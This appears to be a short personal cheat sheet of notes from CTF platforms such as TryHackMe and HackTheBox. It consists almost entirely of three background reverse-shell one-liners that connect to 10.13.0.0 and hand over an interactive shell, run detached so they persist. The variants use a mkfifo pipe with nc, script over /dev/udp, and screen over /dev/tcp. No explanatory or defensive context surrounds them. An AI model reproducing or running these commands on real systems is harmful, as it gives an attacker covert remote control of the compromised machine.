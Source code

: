 # Stuff learned from THM, HTB and other CTF's

I'll try to organize this as best as I can.
```

Background Reverse Shells:
% mkfifo with nc example
        (mkfifo /tmp/MmE1M; nc 10.13.0.0 443 0</tmp/MmE1M | /bin/sh >/tmp/MmE1M 2>&1; rm /tmp/MmE1M) &
 
% other examples
        script -c 'bash -i' /dev/null </dev/udp/10.13.0.0/9001 >&0 2>&1 &
 
        screen -md bash -c 'bash -i >/dev/tcp/10.13.0.0/443 2>&1 0<&1' -md ('start a new detached process')
```